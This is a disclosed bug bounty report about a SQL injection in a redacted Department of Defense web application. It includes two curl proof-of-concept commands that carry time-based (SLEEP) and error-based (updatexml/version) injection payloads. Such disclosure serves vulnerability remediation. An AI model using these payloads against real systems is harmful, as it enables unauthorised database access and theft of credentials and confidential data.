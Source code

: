 # SQL Injection on https://████████/

## Report Details
- **Report ID**: 232378
- **URL**: https://hackerone.com/reports/232378
- **State**: Closed
- **Severity**: high
- **Submitted**: 2017-05-27T07:15:51.436Z
- **Disclosed**: 2022-05-12T19:59:55.610Z

## Reporter
- **Username**: cdl
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: deptofdefense

## Vulnerability Information
**Summary:**
https://████ is vulnerable to SQL Injection.

**Description:**
The `███████` parameter in `https://█████████/██████` does not properly sanitize input, thus allowing an attacker to execute SQL queries on the server!

## Impact
This is a **high impact** vulnerability! I saw a list of tables which I'm guessing contain confidential information such as emails, usernames, passwords, etc! Attackers could likely leverage this to Remote Code Execution by finding admin credentials, then gaining unauthorized access to an admin panel! 

## Step-by-step Reproduction Instructions
#### Proof of Concept #1:
1. Open up your terminal!
2. Paste this command 

```
curl -i -s -k  -X $'POST' \
    -H $'User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:53.0) Gecko/20100101 Firefox/53.0' -H $'Content-Type: application/x-www-form-urlencoded' -H $'Referer: https://██████/██████████?█████████=K' -H $'Upgrade-Insecure-Requests: 1' \
    -b $'_ga=GA1.2.2009424950.1494732845; PHPSESSID=35472be86b20b8a7f8c15737a8977f49' \
    --data-binary $'█████=K*\' OR SLEEP(10) AND \'aSgl\'=\'aSgl&sid=35472be86b20b8a7f8c15737a8977f49&emailid=███████&emailid2=█████████' \
    $'https://██████/████████'
```
3. Now the server will sleep for 10 seconds and then respond! 


#### Proof of Concept #2: 
```
curl -i -s -k  -X $'POST' \
    -H $'User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:53.0) Gecko/20100101 Firefox/53.0' -H $'Content-Type: application/x-www-form-urlencoded' -H $'Referer: https://██████/███████?█████=K' -H $'Upgrade-Insecure-Requests: 1' \
    -b $'_ga=GA1.2.2009424950.1494732845; PHPSESSID=35472be86b20b8a7f8c15737a8977f49' \
    --data-binary $'█████=K*\' OR updatexml(null,concat(0x3a3a,version()),null) AND \'aSgl\'=\'aSgl&sid=35472be86b20b8a7f8c15737a8977f49&emailid=█████████&emailid2=██████████' \
    $'https://██████/███'
```
You will see: "<br><br>You have this list added to your current optionsXPATH syntax error: '::`████`'"
which is the MySQL version! 

**information:**
Current User: `███████@localhost`
Databases: `█████`
Version: `███`

## Suggested Mitigation/Remediation Actions
Sanitize sanitize sanitize!!

Thanks as always ;)
-Corben Douglas (@sxcurity)

## Attachments
No attachments
